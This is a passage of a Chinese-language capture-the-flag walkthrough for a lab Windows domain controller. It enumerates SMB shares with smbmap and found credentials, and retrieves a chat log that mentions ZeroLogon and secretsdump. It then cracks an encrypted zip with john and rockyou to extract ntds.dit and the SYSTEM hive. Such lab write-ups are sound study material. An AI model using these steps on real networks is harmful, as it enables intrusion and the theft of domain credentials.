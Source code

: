 现在用新密码枚举 SMB

```
smbmap -H $IP -u sbradley -p 'testing'
[+] IP: 10.10.25.33:445        Name: 10.10.25.33
        Disk                        Comment
        ----                        -------
        ADMIN$                  Remote Admin
        C$                      Default share
        IPC$                    Remote IPC
        NETLOGON                Logon server share
        SYSVOL                  Logon server share
        trash                   Files Pending for deletion
```

现在我们有了对`trash`的读取权限。下载这里找到的所有东西并进行分析。

这里有 3 个文件。

```
chat_log_20210222143423.txt         
experiment_gone_wrong.zip           
sbradley.txt 
```

两个员工之间的精彩对话。这给了我们一个深入了解，我们将做什么来进一步利用这台机器。

```
- cat chat_log_20210222143423.txt sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.Administrator> What vulnerability??sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.sbradley> Hey you won't believe what I am seeing.Administrator> Now, don't say that you ran the exploit.sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.Administrator> But, Before I die I will kill your WinRM access..........sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.sbradley> Hey Administrator are you there ...sbradley> Administrator .....The administrator died after this incident.Press F to pay respects
```

现在让我们打开拉链，看看里面的东西

```
- zip2john experiment_gone_wrong.zip > hash2.txt- john --wordlist=/usr/share/wordlists/rockyou.txt hash2.txt- unzip experiment_gone_wrong.zip
   Archive:  experiment_gone_wrong.zip
   [experiment_gone_wrong.zip] system.hive password:electromagnetismo
  inflating: system.hive
  inflating: ntds.dit
```

**4:Ljudmila 的 Hash 是什么？**
